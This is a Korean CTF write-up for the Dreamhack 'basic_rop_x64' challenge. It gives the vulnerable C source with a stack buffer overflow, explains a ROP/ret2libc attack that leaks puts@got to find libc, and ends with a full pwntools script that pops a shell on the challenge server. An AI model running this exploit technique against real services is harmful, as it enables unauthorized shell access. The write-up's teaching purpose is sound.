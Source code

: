 ```c
// Name: basic_rop_x64.c

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

```bash
$ checksec ./basic_rop_x64
[*] './basic_rop_x64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 분석

`basic_rop_x64.c` 코드와 `checksec ./basic_rop_x64`의 결과를 볼 때 stack canary를 적용하지 않았으며, NX를 우회해서 쉘을 탈취해야 함을 알 수 있다.

# 취약점

`buf` 배열의 크기는 `0x40`바이트 밖에 안 되는데, `read(0, buf, 0x400);`을 통해 `0x400`바이트의 데이터를 `stdin`을 통해 읽어들이므로 BOF 취약점이 있다.

# 공격

```bash
pwndbg> plt
Section .plt 0x4005b0-0x400640:
0x4005c0: puts@plt
0x4005d0: write@plt
0x4005e0: alarm@plt
0x4005f0: read@plt
0x400600: __libc_start_main@plt
0x400610: signal@plt
0x400620: setvbuf@plt
0x400630: exit@plt
```

gdb를 통해 바이너리의 PLT를 확인하면 `puts` 함수가 PLT에 있음을 확인할 수 있다.
`puts` 함수는 `write` 함수와 달리 인자가 하나 뿐이며, 문자열의 크기를 인자로 넘겨줄 필요가 없으므로 다루기가 상대적으로 간단하다.
따라서 `puts` 함수를 이용하여 공격할 방법을 고려해볼 수 있다.

`puts` 함수를 사용하기 위해서는 `rdi` 레지스터에 원하는 값을 넣을 수 있어야 하므로, `pop rdi`를 포함하는 가젯을 얻을 필요가 있다.
이를 비롯하여 필요한 여러 주요 주소값을 gdb와 ROPgadget 등의 도구를 이용하여 얻어내면 다음과 같다.

* 'ret' 가젯 : `0x4005a9`
* 'pop rdi; ret' 가젯 : `0x400883`
* `buf` : `$rbp-0x40`
* SFP : `$rbp`
* return address : `$rbp+0x8`

이제 payload를 구성하자.
먼저, ROP를 통해 `puts(puts@got);`를 호출하고 이 함수의 return address를 `main`으로 덮어쓰는 방식으로 `puts@got`를 얻어내고 `main` 함수를 재호출하여 `puts@got`를 활용한 payload를 다시 전송할 수 있도록 한다.

그 후, 얻어낸 `puts@got`를 활용하여 `system("/bin/sh");`를 호출할 수 있는 payload를 구성하여 전송하면 쉘을 탈취할 수 있다.

이때, `"/bin/sh"`는 `libc.so.6`에 저장되어 있으므로, 이를 활용하면 된다.

```python
# Name: basic_rop_x64.py

from pwn import *

context.arch = 'amd64'
context.os = 'linux'
# context.log_level = 'debug'

def slog(name, addr):
    success(f'{name}: {hex(addr)}')

HOST = 'host3.dreamhack.games'
PORT = 10770

# conn = process('./basic_rop_x64') # local
conn = remote(HOST, PORT)
e = ELF('./basic_rop_x64')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # local
libc = ELF('./libc.so.6')

puts_plt = e.plt['puts']
puts_got = e.got['puts']
gadget = {
    'ret' : 0x4005a9,
    'pop rdi; ret' : 0x400883
}

buf = b'A' * 0x40
SFP = b'B' * 0x8
payload = buf + SFP

# puts(puts_got)
payload += p64(gadget['ret']) # alignment for movaps instruction
payload += p64(gadget['pop rdi; ret']) + p64(puts_got)
payload += p64(puts_plt)
payload += p64(e.sym['main']) # return to main

conn.send(payload)

conn.recvuntil(buf)
puts = u64(conn.recvn(6) + b'\x00\x00')
lb = puts - libc.sym['puts']
system = lb + libc.sym['system']
sh = lb + list(libc.search(b'/bin/sh'))[0]

slog('puts', puts)
slog('libc_base', lb)
slog('system', system)
slog('/bin/sh', sh)

# system("/bin/sh")
payload = buf + SFP
payload += p64(gadget['pop rdi; ret']) + p64(sh)
payload += p64(system)

conn.send(payload)
conn.interactive()
```